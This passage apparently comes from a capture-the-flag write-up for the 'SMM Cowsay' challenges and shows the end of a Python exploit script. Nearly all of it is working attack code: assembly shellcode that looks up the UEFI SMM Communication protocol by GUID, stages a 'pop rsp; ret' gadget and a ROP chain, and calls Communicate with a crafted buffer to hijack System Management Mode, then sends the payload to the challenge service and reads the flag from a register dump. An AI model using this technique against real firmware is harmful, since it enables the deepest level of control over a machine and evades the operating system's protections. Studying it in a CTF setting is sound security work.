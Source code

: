 ```python
lea rcx, qword ptr [rip + protocol_guid]
xor rdx, rdx
lea r8, qword ptr [rip + protocol_buff]
call rax
mov rbx, qword ptr [rip + protocol_buff]
test rax, rax
jnz fail

/* Communicate(&mSmmCommunication, &buffer, NULL) */
mov rcx, qword ptr [rip + protocol_buff]
mov rax, qword ptr [rcx]
mov rdx, qword ptr [rip + buffer]
xor r8, r8

mov r14, {rop_pop_rsp_ret}
mov r15, qword ptr [rip + rop_buffer]

call rax
test rax, rax
jnz fail
ret

fail:
    ud2

protocol_guid: .long 0xc68ed8e2, 0x4cbd9dc6, 0x65db949d, 0x32c3c5ac
protocol_buff: .long 0
dummy: .long 0
buffer: .quad 0
rop_buffer: .quad 0
rop_chain: .quad {rop_chain_str}
efi_smm_comminucate_hdr:
    .long 0x9a75cf12, 0x4d102c83, 0x7535a8b5, 0xf7926554
    .quad {len(payload)}
""")

r.sendline(sc.hex() + payload.hex())
r.sendline('done')
r.recvuntil('RAX  - ')
flag = bytes.fromhex(r.recvuntil(',', drop=True).decode())[::-1]
print(flag)

r.close()
```



---



### SMM Cowsay 3
